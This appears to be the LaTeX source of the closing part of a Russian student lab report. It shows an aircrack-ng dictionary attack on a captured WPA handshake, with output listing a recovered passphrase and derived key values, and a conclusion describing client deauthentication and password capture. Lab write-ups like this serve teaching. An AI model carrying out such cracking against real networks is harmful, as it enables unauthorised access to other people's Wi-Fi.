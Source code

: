 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{verbatim}
crazy-mini alex # aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap
Read 20931 packets.

   #  BSSID              ESSID                     Encryption

   1  1C:7E:E5:39:26:F8  18                        WPA (1 handshake)

Choosing first network as target.

Opening dump-05.cap
Reading packets, please wait...

                                 Aircrack-ng 1.1


                   [00:01:51] 91444 keys tested (845.44 k/s)


                         KEY FOUND! [ execombat112 ]


      Master Key     : CB A9 50 ED 43 34 9F 6E C1 CD 22 48 71 3C 21 F3 
                       7D 11 CE BF 37 E0 B4 62 CE 4B EC 03 32 DB 47 B1 

      Transient Key  : 9B 6F B4 1A E5 6C E0 96 13 BD CB 53 47 F5 E6 AE 
                       74 18 DC B4 6B 74 CE AF CD 52 B1 E8 A3 00 73 B8 
                       43 D3 84 3B C2 74 7C 4E BE 74 3B A5 80 5D 4F 92 
                       25 8C 45 86 45 97 1A 41 E6 58 18 9E 94 FE 1C BB 

      EAPOL HMAC     : 23 38 A3 41 34 98 88 00 4C 73 54 67 39 E9 DB 87 

\end{verbatim}



\section{Выводы}

В ходе данной лабораторной работы был рассмотрен AirCrack с такими его уилитами, как: airmon-ng, airodump-ng, aireplay-ng и aircrack-ng.
 
Произведен мониоринг на беспроводном инерфейсе, ослеживающий аутентификации в сети, а также осуществлена деаутентификация одного из клиентов и перехвачен введенный им пароль. В итоге осуществден взлом, посредсвом словаря паролей.
\end{document}

